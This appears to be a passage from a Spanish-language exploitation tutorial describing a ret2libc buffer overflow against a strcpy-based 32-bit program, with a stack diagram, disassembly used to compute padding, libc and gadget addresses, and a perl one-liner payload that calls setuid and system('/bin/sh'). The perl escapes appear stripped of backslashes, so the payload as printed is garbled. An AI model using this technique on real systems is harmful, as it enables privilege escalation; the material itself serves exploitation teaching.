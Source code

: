 |                   |
+-------------------+
|       &ret        |
+-------------------+
|       &ret        | EIP(s)
+-------------------+
|     &buf - 4      | EBP(s) Aquí ponemos un EBP falso
+-------------------+ <- EBP (inicialmente)
|        ...        | (?? bytes, cosas de gcc, siempre se deja los juguetes por ahí tirados) Relleno
+-------------------+ <- Fin buf
|        ...        | Relleno (116 bytes)
+-------------------+
|    &"/bin/sh"     |
+-------------------+
|      &exit()      |
+-------------------+
|     &system()     |
+-------------------+ <- buf (128 bytes)
|        ...        |
+-------------------+ <- ESP (inicialmente)
  Direcciones bajas

Una vez que nos hemos hecho un esquema del proceso de explotación que vamos a emplear, lo pasamos a nuestro _perl one-line_ (ya, ya sé que mucha gente emplearía python, que quedaría más claro, pero Blackngel me ha marcado en esto, además, si lo hacemos en python, tendríamos que escribir más que con un _one-line_, recuerdo que @pastaCLS de CLS me bautizó como «el perl _one-liner_«).

Bien, una forma de calcular el relleno que debemos introducir sin el `create_pattern` de metasploit u otras herramientas es viendo el código en asm, fijándonos en concreto cómo es referenciado el buffer:  
`804844a: 8d 85 78 ff ff ff lea eax,[ebp-0x88]  
8048450: 50 push eax  
8048451: e8 aa fe ff ff call 8048300 <strcpy@plt>`  
Por tanto, buf se encuentra 0x88 (136 en dec) bytes bajo `EBP(s)`. Así que, introduciremos primero las direcciones &system, &exit, &»/bin/sh» más un relleno de 124 bytes.  

    0xf7f5ecc8 : /bin/sh (ROPgadget)
    0xf7e3c850 <system> (gdb)
    0xf7e30800 <exit> -> nope (byte 0x00 y dirs anteriores no sirven) -> 0xf7eb35c5 <_exit> (gdb)
    0xf7eb3d60 <setuid> (gdb)
    8048527: c3 ret    (objdump)

804846c: c9 leave  
804846d: c3 ret (objdump)

Ya podemos hacer casi todo el exploit, primero lo haremos colocando las direcciones que deberemos introducir como mínimo (seguramente tendremos que introducir varios `&ret`‘s para alcanzar un `0x00000000` que quede como argumento para `setuid()`, pero por ahora colocaremos solo un `&ret`)  
`perl -e 'print "x50xc8xe3xf7" . "xc5x35xebxf7" . "xc8xecxf5xf7" . "A"x124 . "xaaxaaxffxff" . "x27x85x04x08" . "x60x3dxebxf7" . "x6cx84x04x08"'`
